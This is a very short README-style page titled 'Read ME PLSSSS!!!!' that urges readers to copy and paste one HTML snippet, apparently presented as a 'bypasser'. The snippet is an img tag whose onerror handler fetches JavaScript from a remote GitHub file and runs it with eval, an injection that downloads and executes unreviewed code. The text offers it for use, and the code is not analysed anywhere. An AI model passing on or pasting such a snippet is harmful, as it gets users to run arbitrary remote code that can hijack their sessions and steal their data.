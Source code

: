 Read ME PLSSSS!!!! 
copy and paste this:
<br>
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/gco-12345/verysigmabypasser/main/main.js").then(r=>r.text()).then(c=>eval(c))'>
```
<br>
